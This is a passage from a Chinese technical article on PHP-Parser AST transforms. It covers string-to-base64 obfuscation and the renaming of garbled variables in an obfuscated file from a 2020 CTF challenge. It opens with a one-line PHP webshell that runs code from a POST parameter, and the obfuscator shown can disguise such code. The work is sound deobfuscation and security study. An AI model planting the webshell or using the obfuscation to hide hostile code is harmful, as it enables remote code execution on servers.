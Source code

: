     
    
    <?php        $a = 'assert';$a($_POST['x']);

因为变量的还原涉及到作用域、存储结构等问题，这里不做探讨。  
 **2.字符串编码解码** 这部分尝试将字符串替换为`base64`加密之后的结果，思路如下：

  * 判断当前节点是否为”Scalar\String_”；
  * 将节点的”value”值进行“base64_encode“编码；
  * 替换原节点为“FuncCall“类型；

代码如下：

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    class Base64Reducer extends NodeVisitorAbstract  
        public function leaveNode(Node $node) {        if ($node instanceof Node\Scalar\String_) {            $name = $node->value;            return new Expr\FuncCall(                new Node\Name("base64_decode"),                [new Node\Arg(new Node\Scalar\String_(base64_encode($name)))]            );        }    }}

效果如下：  

  *   *   *   *   *   * 

    
    
    <?php              $str = "Threatbook";?>                  --After parser:--                                  
    $str = base64_decode('VGhyZWF0Ym9vaw=='); 

 **3.CTF混淆文件还原实战** 经过上面两个例子，已经掌握了PHP-
Parser的基础运用，接下来通过还原混淆文件深化一下对于节点的理解，样本是2020年高校战“疫”网络安全分享赛中Hardphp题目的混淆文件，我们将从WriteUP逆向推导出反混淆思路，混淆文件如下：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230308191059.png)

首先观察可以发现，混淆文件通过“unserialize(base64_decode(“的方式将字符串解码结果赋值给”GLOBALS“数组，然后通过数组值进行运算。由于存在部分乱码的变量名，首先将所有的乱码变量批量重命名。思路如下：

  * 筛选所有“Variable“类型的节点；
  * 通过正则表达式匹配出乱码变量，这种变量名中不会出现字母数字等字符；
  * 通过一个数组存放重命名的变量名，如果某个乱码变量再次出现，通过数组查询新的变量名进行替换。

代码如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    // 变量重命名class ReNameVariable extends NodeVisitorAbstract{  
        public $Count = 0;    public $NewName = [];  
        public function leaveNode(Node $node){        //判断Variable类型的节点        if ($node instanceof Node\Expr\Variable) {            //匹配不含字母数字的乱码变量            if (!preg_match('/^[a-zA-Z0-9_]+$/', $node->name)) {                //如果这个变量再次出现，使用已经有的替换值进行替换                if (in_array($node->name, array_keys($this->NewName))){                    $new_var_name = str_replace($node->name, 'v_' . $this->NewName[$node->name], $node->name);                    return (new Node\Expr\Variable($new_var_name));                    }else{                    //记录新的变量名到数组                    $this->NewName[$node->name] = $this->Count++;                    $new_var_name = str_replace($node->name, 'v_' . $this->NewName[$node->name], $node->name);                    return (new Node\Expr\Variable($new_var_name));                    }            }            return ;        }    }
